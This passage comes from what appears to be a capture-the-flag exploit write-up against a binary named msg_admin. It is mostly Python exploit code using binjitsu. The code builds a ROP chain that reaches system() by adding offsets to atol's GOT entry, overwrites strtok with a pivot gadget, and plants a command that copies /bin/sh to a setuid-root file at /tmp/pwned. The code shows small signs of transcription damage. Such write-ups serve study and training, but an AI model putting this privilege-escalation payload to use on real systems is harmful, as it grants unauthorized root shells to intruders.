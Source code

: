 ```
cp /bin/sh /tmp/pwned;
chown root /tmp/pwned;
chmod 4777 /tmp/pwned;
```

We need to set the setuid bit (4777) in order for us, as puck, to execute the binary under root privileges.

The pieces are in place, let's check out our final ROP chain.

```python
def add_offset(addr):
    """Function used to easily add offsets to eax to global rop chain"""
    # 0x08048feb : add eax, dword ptr [ebx + 0x1270304] ; ret.
    add_to_sum = 0x08048feb
    rop.raw(pop_ebx)
    rop.raw(addr - 0x1270304) # Have to subtract the constant as it is added back by the gadget
    rop.raw(add_to_sum)

# Note the binjitsu fun!
rop = ROP(elf) # Create the simple ROP object from msg_admin
tmpfoo = elf.search('/tmp/foo').next()
atol = elf.got['atol']

pop_ebx = 0x804859d
call_eax = 0x8048786

# Offsets found from manual IDA investigation
hex_c6e8 = 0x8048595
hex_2203 = 0x8048dff
hex_14 = 0x8048833
hex_1 = 0x8048fb9.

rop.raw(0x8048790)   # eax = 0

# Add offsets to atol to reach system()
add_offset(atol)     # eax = 0 + atol_addr
add_offset(hex_c6e8) # eax = eax + 0xc6e8
add_offset(hex_2203) # eax = eax + 0x2203
add_offset(hex_14)   # eax = eax + 0x14
add_offset(hex_1)    # eax = eax + 0x1
# eax now contains the address of system()

# call eax with the parameter of /tmp/foo
rop.raw(call_eax)    
rop.raw(tmpfoo)
```

As per the previous challenges, we need to execute these via binjitsu.

```python
# Write our /tmp/foo command
r.sendline('echo "cp /bin/sh /tmp/pwned; chown root /tmp/pwned; chmod 4777 /tmp/pwned" > /tmp/foo')
r.sendline('chmod +x /tmp/foo')

# Overwrite strtok with the pivot gadget
sc = str(rop)
sc += cyclic(cyclic_find('daac')-len(sc))
sc += p32(strtok) # where to overwrite
sc += 'C' * (216 - len(sc))

data = ''
data += '{}|{}\n'.format('s'*4, sc) 
data += '{}|{}\n'.format(p32(pivot), str(rop))

pwnmsg_file = ''
```